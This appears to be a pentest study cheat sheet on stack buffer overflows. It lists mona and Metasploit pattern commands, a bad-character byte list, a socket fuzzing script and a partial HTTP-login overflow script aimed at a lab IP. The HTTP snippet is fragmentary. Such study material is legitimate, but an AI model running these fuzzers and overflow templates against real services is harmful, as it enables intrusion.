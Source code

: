 Buffer OverFlow

BUFFER OVERFLOW COMMANDS
msf-pattern_create -l 4000
msf-pattern_offset -l 4000 -q 39794338
!mona modules
!mona find -s “\xFF\xE4” –m “<MODULE>”

BUFFER OVERFLOW METHODOLOGY
https://www.thecybermentor.com/buffer-overflows-made-easy

Steps:
	1. Crash The Application: Send "A"*<NUMBER>
	2. Find EIP: Replace "A" w/ pattern_create.rb -l LENGTH
	3. Control ESP: !mona findmsp (@crashtime), pattern_offset.rb, !mona pattern_offset eip
	4. Identify Bad Characters
	5. Find JMP ESP
	6. Generate Shell Code
Exploit

"\x00" is bydefault badchar 

BADCHARS

badchars=( "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

IMMUNITY DEBUGGER MONA COMMANDS
!mona findmsp (find offset when app crashes)
!mona pattern_offset eip
!mona compare -a esp -f C:\Users\IEUser\Desktop\badchar_test.bin
!mona find -s "\xFF\xE4" -m <PROGRAM/DLL> 
!mona jmp -r esp
!mona jmp -r esp -cpb '\x00\x0a\x0d'

BUFFER OVERFLOW FUZZING SCRIPT
#!/usr/bin/python
import socket
RHOST = ""
RPORT = ####
buf = "A" * 4000
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))
print "Sending buf"
s.send(buf + '\n')"

BUFFER OVERFLOW OVER HTTP SCRIPT
except 

		content = "username=" + inputBuffer + "&password=A"
		buffer = "POST /login HTTP/1.1\r\n"
		buffer += "Host: 192.168.139.10\r\n"
		buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
		buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
		buffer += "Accept-Language: en-US,en;q=0.5\r\n"
		buffer += "Referer: http://192.168.139.10/login\r\n"
		buffer += "Connection: close\r\n"
		buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
		buffer += "Content-Length:  "+str(len(content))+"\r\n"
		buffer += "\r\n"

		buffer += content

		s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

		s.connect(("192.168.139.10", 80))
		s.send(buffer)

		s.close()

modify as needed
